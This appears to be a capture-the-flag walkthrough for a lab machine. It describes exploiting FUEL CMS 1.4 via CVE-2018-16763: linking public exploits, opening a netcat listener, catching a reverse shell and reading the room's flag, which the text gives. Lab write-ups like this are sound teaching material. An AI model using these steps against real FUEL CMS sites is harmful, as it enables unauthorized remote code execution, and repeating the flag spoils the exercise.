 1. Run the machine and wait for 5 minutes :)

2. If we simply open the given ipaddress in the browser, we can see a page of an application with the name [FUEL CMS].

3. The version of this application is also given [1.4].

4. Search on google for the remote code execution vulnerabilies in the version 1.4 of FUEL CMS. The cve is [CVE-2018-16763].

5. Click the button after discovering more exploits :)

6. After checking exploits on exploit-db: [https://www.exploit-db.com/exploits/50477], this was one that may work. But unfortunately after trying it, it was showing errors. As we were also warned in the task-5, we should look for some other ones. So i just found this one [https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py]. First setup a port to get the shell [nc -lvnp PORT]. Run this exploit [python3 exploit.py <IP_ADDRESS>]. Then enter [shell_me]. Then enter [YOUR_THM_VPN_IP:PORT]. This will give you the shell on the nc that you set up. Run [pwd] to see the current directory. Since we have to move to the [/home/ubuntu], run [cd ../../../../home/ubuntu]. Now [ls] to see, and it has the [flag.txt] file. [cat flag.txt] will give us the flag [THM{ACKME_BLOG_HACKED}].

